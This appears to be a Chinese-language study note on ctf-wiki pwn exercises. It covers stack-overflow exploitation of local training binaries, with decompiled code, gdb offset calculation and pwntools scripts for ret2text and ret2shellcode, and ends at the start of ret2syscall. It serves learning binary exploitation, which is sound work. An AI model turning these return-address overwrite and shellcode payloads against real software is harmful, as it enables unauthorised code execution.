



# ctf-wiki pwn刷题


思虑太多就会使人痛苦，入门pwn权当作清晨操练。相信时间，相信新的机遇。

使用seveng0佬的pwn ubuntu16虚拟机做题

## 0. 相关术语

**返回导向编程** (Return Oriented Programming)

小片段 gadgets 通常是以 `ret` 结尾的指令序列

shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。


## 1. 栈溢出

不同虚拟机地址可能不一样，以实际为准


### 1. ret2text

ret2text 即控制程序执行程序本身已有的的代码


```
checksec ./ret2text
[*] '/home/seveng0/Desktop/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了数据执行保护

打开IDA

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets(s);
  printf("Maybe I will tell you next time !");
  return 0;
}
```


交叉引用在secure函数处找到

```c
void secure()
{
  unsigned int v0; // eax
  int input; // [esp+18h] [ebp-10h] BYREF
  int secretcode; // [esp+1Ch] [ebp-Ch]

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf(&unk_8048760, &input);
  if ( input == secretcode )
    system("/bin/sh");
}
```


后面需要控制程序跳转到`0x0804863A`

鼠标悬停在s上看到s的偏移`-064h`，故s在`esp+1Ch`处

```assembly
.text:08048648 55                            push    ebp
.text:08048649 89 E5                         mov     ebp, esp
.text:0804864B 83 E4 F0                      and     esp, 0FFFFFFF0h
.text:0804864E 83 C4 80                      add     esp, 0FFFFFF80h ;-128的补码
...
.text:080486A7 8D 44 24 1C                   lea     eax, [esp+80h+s]
.text:080486AB 89 04 24                      mov     [esp], eax   ;s
.text:080486AE E8 AD FD FF FF                call    _gets
```


gdb调试，将断点下在`call _gets`处

```
gdb ./ret2text
b *0x080486AE
r
```




```assembly
esp为0xffffcfd0
ebp为0xffffd058
s地址：0xffffcfec
s相对于ebp偏移：0xffffd058-0xffffcfec=0x6c
```


最终payload如下：

```python
from pwn import *
p=process('./ret2text')
target=0x804863a
p.sendline(b'A'*(0x6c+4)+p32(target)) #覆盖返回地址 
#虽说栈从高地址向低地址生长
#但字符串，数组等从低地址向高地址覆写
#32位程序中内存以四字节对齐，所以ebp和返回地址都是4字节,0x6c多加4覆盖了ebp，
#后面的p32(target)覆盖了返回地址
p.interactive()
```




### 2. ret2shellcode

ret2shellcode，即控制程序执行 shellcode 代码。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

**在新版内核当中引入了较为激进的保护策略，程序中通常不再默认有同时具有可写与可执行的段，这使得传统的 ret2shellcode 手法不再能直接完成利用**。


```
checksec ./ret2shell*
[*] '/home/seveng0/Desktop/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

有可读可写可执行段


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```

将s拷贝到buf2，buf2在`.bss:0804A080`

查看一下bss段权限

```bash
gdb ./ret2shell*
b main  #断点下在main函数处
r
vmmap  #查看内存映射
```


可以看到bss段权限`rwxp`可读，可写，可执行，私有（其它进程不能访问）

那么我们参考上一题，并把返回地址覆写成buf2的地址

```
esp:0xffffcfc0
ebp:0xffffd048
s:esp+0x1c=0xffffcfdc
ebp与s的距离：0x6c
```


```python
from pwn import *
p= process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
#shellcraft.sh()：生成一个调用 /bin/sh 的 Shellcode
#asm()：将汇编代码转换为机器码字节序列
buf2_addr = 0x804a080
p.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))#0x6c+4=112
#将 shellcode 左对齐并填充到 112 字节，不足部分用 b'A' 填充。
p.interactive()
```




### 3. ret2syscall

ret2syscall，即控制程序执行系统调用，获取 shell。


```bash
checksec rop
[*] '/home/seveng0/Desktop/pwn/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


